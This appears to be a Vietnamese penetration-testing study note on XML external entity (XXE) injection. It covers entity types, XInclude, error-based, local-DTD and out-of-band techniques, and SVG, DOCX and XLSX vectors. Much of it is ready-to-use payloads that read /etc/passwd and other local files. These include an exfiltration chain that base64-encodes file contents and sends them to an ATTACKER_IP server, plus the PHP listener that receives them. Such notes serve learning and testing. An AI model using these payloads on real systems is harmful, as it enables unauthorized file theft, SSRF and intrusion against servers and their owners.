

## XXE
Điều kiện: Pare external entity

Một số thư viện hỗ trợ xử lý `json` cũng hỗ trợ xử lý `xml` nên có thể thay đổi `application/json` thành `application/xml` 

### DTD
Được khai báo với `DOCTYPE` element ở đầu XML document.Ở trong DTD có thể khai báo một `external entity`. 

### XML custom entities
**General Entity**

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>`
Trong XML document sẽ sử dụng `&myentity;` để lấy dữ liệu từ  `myentity` ở trong thẻ `foo`

**Parameter Entity**

`<!ENTITY % xxe SYSTEM "...">` chỉ được dùng trong `DTD` . Không thể dùng trong phần thân của tài liệu XML. Vì vậy, dấu `%` là ký hiệu dành riêng để khai báo và gọi parameter entity.

Sử dụng  `%xxe;` để tham chiếu giá trị . Trong internal DTD không cho phép nối chuỗi như `<!ENTITY joined "%begin;%file;%end;">` muốn sử dụng cái này bắt buộc phải làm ở external DTD (file `.DTD`).

### XML external entities
Một loại `XML custom entities` được đặt ở trong `DTD`

Khai báo sử dụng `SYSTEM` keyword và chỉ định một `URL` sẽ được entity load . `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` , ngoài ra có thể xử dụng `file://` protocol để load local file. Đo nhận vào một `URL` nên nếu backend là PHP thì có thể sử dụng các `wraper`  

###  XML external entities with CDATA
Được sử dụng để cấu trúc payload ở DTD , được sử dụng khi là URL được load chứa các kí tự XML đặc biệt như : `<, >, &, ", ' ` thì sẽ làm cho parse lỗi. 

Giải pháp:  Bọc quanh nội dung mục tiêu `<![CDATA[ ... ]]>` . Do không thể chèn trực tiếp `Parameter Entity` vào DTD nội bộ (Internal DTD Subset) của một file XML. Do đó, kỹ thuật này bắt buộc phải host một file DTD bên ngoài (External DTD) trên server của kẻ tấn công (hoặc server trung gian).

B1: create external DTD file.
```xml
<!ENTITY % begin "<![CDATA[">
<!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
<!ENTITY % end "]]>">
<!ENTITY joined "%begin;%file;%end;">
```

B2: payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
%remote;
]>
<root>
<name>Test User</name>
<email>&joined;</email>
<message>Test message</message>
</root>
```
### detect
method 1: inband
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
    <name>Test User</name>
    <email>&company;</email>
    <message>Test message</message>
</root>

```

method 2: OOB

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "https://YOUR-WEBHOOK.example/xxe-test">
]>
<foo>&xxe;</foo>


===========================================================================

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://YOUR-WEBHOOK.example/test">
  %xxe;
]>
<foo/>
```

### XInclude Attacks
Khi không thể controll được `<!DOCTYPE ...>` để khai báo external entity vì một số lý do như có sẵn XML template , hay là bị chặn thì có thể sử dụng `XInclude` để nhúng tài nguyên vào trong XML document ngay lúc parse 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>

```
`xmlns:xi="http://www.w3.org/2001/XInclude"`: khai báo namespace bắt buộc.

`<xi:include>`: thẻ yêu cầu nhúng tài nguyên.

`parse="text"`: nhúng nội dung dưới dạng text thuần (không parse thành XML). Đây là lựa chọn khi muốn đọc file.


### Error Base
Khi một nội dung hợp lệ không được render ra nhưng mà nếu gây ra lỗi thì trang web lại trả về lỗi 

**Error + OOB**
B1: tạo file `.dtd` ở ngoài
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%exfil;
```

B2: gửi payload để trigger lỗi kèm nội dung file
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<foo/> 
```

**Error Based - Using Local DTD File**

Nguyên lý: Ghi đè `parameter entity` theo nguyên tắc thì sẽ nhận cái cái `parameter entity` được khai báo đầu tiên nên `parameter entity` file local `.dtd` file sẽ bị bỏ qua. 

Mỗi lần gọi `%entity_name;` parser sẽ nội dung được tham chiếu và decode một lần.

Ví dụ:

Local tồn tại file `fonts.dtd` như sau
```xml
<!ENTITY % constant "int|double|string|matrix|bool|charset|langset|...">
<!ENTITY % expr "(%constant;)|(%constant;)(,|%constant;)\*">

<!ELEMENT fontconfig (dir|match|alias|...)\*>
<!ELEMENT match (test|edit)\*>
<!ELEMENT test (#PCDATA)>
<!ELEMENT fontconfig (%expr;)*>

```

Gửi payload ghi đè` %expr` được khai báo trong file.
```xml

<?xml version="1.0" ?>
<!DOCTYPE message [
    
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    
    %local_dtd;
]>
<message>any text</message>
```

### Blind XXE to Exfiltrate Data  OOB

```xml
B1: Create Exfiltration DTD
				<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
				<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ATTACKER_IP:8000/?content=%file;'>">
				
B2: Start PHP Server
		# Save above PHP code to index.php
echo '<?php if(isset($_GET["content"])){error_log("\n\n" . base64_decode($_GET["content"]));} ?>' > index.php
	
		# Start server to receive exfiltrated data
php -S 0.0.0.0:8000			
				
B3: Payload
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

### BYPASS WAF
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#waf-bypasses

ý tưởng là tận dụng bất đồng bộ đọc các kí tự bị encode khác nhau giữa WAF và parser
### XXE Inside SVG
SVG thực chất là một file XML nên có có thể test nếu trang web có các chức năng liên quan đến file này như upload file .

có thể dùng các kí thuật tương tự như khai thác XXE ở trên, đây là một ví dụ
```svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE Inside DOCX file
File `.docx` thực chất là file nén ZIP chứa nhiều tệp tin XML bên trong. Nếu Backend sử dụng một hàm để đọc file này nếu cấu hình cho phép external entity .

Một số vị trí phổ  biến như: `[Content_Types].xml , /word/document.xml , /_rels/.rels`

### XXE insite XLSX (Định dạng file Excel)
Structure of the XLSX:
```
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```
### Jar: protocol
Một giao thức trong java application , được sử dụng để truy cập  các file trong `PKZIP` (e.g., .zip, .jar, etc.) , nó được sử dụng cho cả local và remote.

Qúa trình truy cập 1 file trong `PKZIP` thông qua `jar` protocol:
1. An HTTP request is made to download the zip archive from a specified location, such as `https://download.website.com/archive.zip.`
2. The HTTP response containing the archive is stored temporarily on the system, typically in a location like /tmp/....
3. The archive is then extracted to access its contents.
4. The specific file within the archive, file.zip, is read.
5. After the operation, any temporary files created during this process are deleted.

[This repository](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution) giúp làm cho quá trình ở bước 2 lâu hơn , giúp làm cho file đó được lưu trên server lâu hơn , nó có vẻ hữu ích trong LFI , path traversall, ....


### Impact
- đọc file tùy ý 
- SSRF 
- RCE : case backend là PHP nên có thể sử dụng các wraper như:
  - `phar://` : `phar.readonly` mặc định bật cho phép unserialize và `phar.require_hash` mặc định bật yêu cầu file `phar` phải có chữ kí hợp lệ.
  - `expect://` : module `expect` của PHP phải được bật nhưng mặc định module này bị tắt.


## XSLT
Là một ngôn ngữ lập trình dựa trên XML , dùng để biến đổi các tài liệu XML thành các định dạng khác như HTML, văn bản thuần túy (plain text), JSON (trong phiên bản 3.0), hoặc các cấu trúc XML khác mà không làm thay đổi tài liệu gốc.


